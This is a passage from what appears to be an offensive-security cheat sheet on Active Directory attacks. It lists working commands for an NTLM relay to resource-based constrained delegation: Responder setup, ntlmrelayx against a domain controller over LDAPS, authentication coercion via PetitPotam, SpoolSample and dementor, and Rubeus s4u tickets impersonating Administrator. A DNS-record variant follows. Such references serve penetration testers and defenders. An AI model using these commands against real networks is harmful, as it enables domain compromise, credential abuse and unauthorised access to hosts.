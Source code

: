 * Disable HTTP in Responder

    ```ps1
    sudo vi /usr/share/responder/Responder.conf
    ```

* Generate a Windows machine name, e.g: "WIN-UBNW4FI3AP0"

    ```ps1
    sudo responder -I eth0
    ```

* Prepare for RBCD against the DC

    ```ps1
    python3 ntlmrelayx.py -t ldaps://dc --delegate-access -smb2support
    ```

* Trigger the authentication to relay to our nltmrelayx: `PetitPotam.exe WIN-UBNW4FI3AP0@80/test.txt 10.10.10.10`, the listener host must be specified with the FQDN or full netbios name like `logger.domain.local@80/test.txt`. Specifying the IP results in anonymous auth instead of System.

  ```ps1
  # PrinterBug
  dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  SpoolSample.exe "TARGET_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

  # PetitPotam
  Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  ```

* Use the created account to ask for a service ticket:

    ```ps1
    .\Rubeus.exe hash /domain:purple.lab /user:WVLFLLKZ$ /password:'iUAL)l<i$;UzD7W'
    .\Rubeus.exe s4u /user:WVLFLLKZ$ /aes256:E0B3D87B512C218D38FAFDBD8A2EC55C83044FD24B6D740140C329F248992D8F /impersonateuser:Administrator /msdsspn:host/pc1.purple.lab /altservice:cifs /nowrap /ptt
    ls \\PC1.purple.lab\c$
    # IP of PC1: 10.0.0.4
    ```

An alternative for the previous exploitation method is to register a **DNS entry** for the attack machine by yourself then trigger the coercion.

```ps1
python3 /opt/krbrelayx/dnstool.py -u lab.lan\\jdoe -p 'P@ssw0rd' -r attacker.lab.lan -a add -d 192.168.1.50 192.168.1.2
python3 /opt/PetitPotam.py -u jdoe -p 'P@ssw0rd' -d lab.lan attacker@80/test 192.168.1.3
```

## Man-in-the-middle RDP connections with pyrdp-mitm
